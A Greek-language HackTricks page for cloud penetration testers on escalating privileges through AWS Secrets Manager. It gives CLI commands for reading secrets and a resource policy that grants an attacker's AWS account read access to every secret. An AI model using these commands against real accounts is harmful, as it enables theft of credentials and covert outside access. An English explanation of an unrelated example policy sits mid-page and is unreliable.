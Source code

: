 # AWS - Προνομιούχος Ανέλιξη Μάνατζερ Μυστικών

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Μάνατζερ Μυστικών

Για περισσότερες πληροφορίες σχετικά με τον μάνατζερ μυστικών, ελέγξτε:

{% content-ref url="../aws-services/aws-secrets-manager-enum.md" %}
[aws-secrets-manager-enum.md](../aws-services/aws-secrets-manager-enum.md)
{% endcontent-ref %}

### `secretsmanager:GetSecretValue`

Ένας επιτιθέμενος με αυτήν την άδεια μπορεί να ανακτήσει την **αποθηκευμένη τιμή μέσα σε ένα μυστικό** στο AWS **Μάνατζερ Μυστικών**.
```bash
aws secretsmanager get-secret-value --secret-id <secret_name> # Get value
```
**Πιθανές Επιπτώσεις:** Πρόσβαση σε υψηλά ευαίσθητα δεδομένα μέσα στην υπηρεσία AWS Secrets Manager.

### `secretsmanager:GetResourcePolicy`, `secretsmanager:PutResourcePolicy`, (`secretsmanager:ListSecrets`)

Με τα προηγούμενα δικαιώματα είναι δυνατόν να **δοθεί πρόσβαση σε άλλους χρήστες/λογαριασμούς (ακόμα και εξωτερικούς)** για να έχουν πρόσβαση στο **μυστικό**. Σημειώστε ότι για να **διαβάσει μυστικά που έχουν κρυπτογραφηθεί** με ένα κλειδί KMS, ο χρήστης πρέπει επίσης να έχει **πρόσβαση στο κλειδί KMS** (περισσότερες πληροφορίες στην [σελίδα KMS Enum](../aws-services/aws-kms-enum.md)).
```bash
aws secretsmanager list-secrets
aws secretsmanager get-resource-policy --secret-id <secret_name>
aws secretsmanager put-resource-policy --secret-id <secret_name> --resource-policy file:///tmp/policy.json
```
policy.json:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "AllowListSecrets",
            "Effect": "Allow",
            "Action": [
                "secretsmanager:ListSecrets",
                "secretsmanager:ListSecretVersionIds"
            ],
            "Resource": "*"
        },
        {
            "Sid": "AllowGetSecretValue",
            "Effect": "Allow",
            "Action": "secretsmanager:GetSecretValue",
            "Resource": "arn:aws:secretsmanager:us-west-2:123456789012:secret:my-secret"
        }
    ]
}
```

This `policy.json` file contains the permissions defined for an AWS Secrets Manager user. The policy allows the user to perform the following actions:

- `secretsmanager:ListSecrets` and `secretsmanager:ListSecretVersionIds`: This allows the user to list all secrets and their version IDs.
- `secretsmanager:GetSecretValue`: This allows the user to retrieve the value of a specific secret.

The `Resource` field specifies the ARN (Amazon Resource Name) of the secret that the user is allowed to access. In this example, the ARN is `arn:aws:secretsmanager:us-west-2:123456789012:secret:my-secret`.

By granting these permissions, the user can list secrets and retrieve the value of the specified secret.
```json
{
"Version" : "2012-10-17",
"Statement" : [ {
"Effect" : "Allow",
"Principal" : {
"AWS" : "arn:aws:iam::<attackers_account>:root"
},
"Action" : "secretsmanager:GetSecretValue",
"Resource" : "*"
} ]
}
```
<details>

<summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα hacking tricks σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
